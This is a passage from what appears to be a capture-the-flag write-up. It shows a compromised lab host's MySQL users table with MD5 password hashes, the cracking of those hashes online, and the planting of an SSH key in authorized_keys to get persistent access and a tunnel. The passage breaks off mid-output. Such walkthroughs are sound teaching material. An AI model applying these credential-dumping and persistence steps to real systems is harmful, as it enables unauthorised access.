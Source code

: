 ```
mysql> show tables;
show tables;
+---------------------+
| Tables_in_webportal |
+---------------------+
| users               |
+---------------------+
1 row in set (0.00 sec)

mysql> select * from users;
select * from users;
+----+-----------+----------+-----------+----------------------------------+
| id | firstname | lastname | username  | password                         |
+----+-----------+----------+-----------+----------------------------------+
|  1 | Anurodh   | Acharya  | Aurick    | 7e53614ced3640d5de23f111806cc4fd |
|  2 | Apaar     | Dahal    | cullapaar | 686216240e5af30df0501e53c789a649 |
+----+-----------+----------+-----------+----------------------------------+
2 rows in set (0.00 sec)

```

Since the passwords are saved in md5 format I couldn't read them, so I used [crackstation](https://crackstation.net/) to try to decrypt them.

<div><p align="center"><img  src="./img/crackstation.png" /></div>

I tried to use these passwords to change my user in hopes that `Anurodh` has higher permissions, but apparently these passwords are only for the service on port `9001`, or they are useless.

Now I needed to access this server via browser. One way I can do this is to create an [ssh tunnel](https://linuxize.com/post/how-to-setup-ssh-tunneling/), but I needed the password of the `apaar` user and I didn't have that password. So I used `ssh-keygen` command to  create a key pair and I inserted the public key in the `authorized_keys` file.

```
apaar@ubuntu:~/.ssh$ ssh-keygen -t rsa
ssh-keygen -t rsa
Generating public/private rsa key pair.
Enter file in which to save the key (/home/apaar/.ssh/id_rsa): 

Enter passphrase (empty for no passphrase): 

Enter same passphrase again: 

Your identification has been saved in /home/apaar/.ssh/id_rsa.
Your public key has been saved in /home/apaar/.ssh/id_rsa.pub.
The key fingerprint is:
```